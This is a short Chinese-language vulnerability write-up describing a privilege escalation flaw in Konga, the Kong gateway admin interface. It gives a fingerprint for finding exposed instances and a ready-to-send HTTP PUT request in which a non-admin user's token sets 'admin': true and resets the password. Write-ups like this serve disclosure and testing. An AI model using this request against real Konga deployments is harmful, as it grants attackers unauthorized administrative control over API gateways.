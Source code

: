 # Konga 普通用户越权获取管理员权限漏洞

## 漏洞描述

Konga 普通用户通过发送特殊的请求可越权获取管理员权限

## 漏洞影响

```
Konga
```

## 网络测绘

```
"konga"
```

## 漏洞复现

登录页面



![image-20220210184626593](images/202202101846658.png)

创建非管理员用户后登录并获取token



![](images/202202101847245.png)



发送请求包, 将token修改为刚刚获取的



```plain
PUT /api/user/7 HTTP/1.1
Host: 127.0.0.1:1337
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 241

{
  "admin": true,
  "passports": {
    "password": "1234abcd",
    "protocol": "local"
  },
  "password_confirmation": "1234abcd",
  "token": "non-administrator user token"
}
```



![](images/202202101847809.png)



成功转为管理员用户



![](images/202202101847129.png)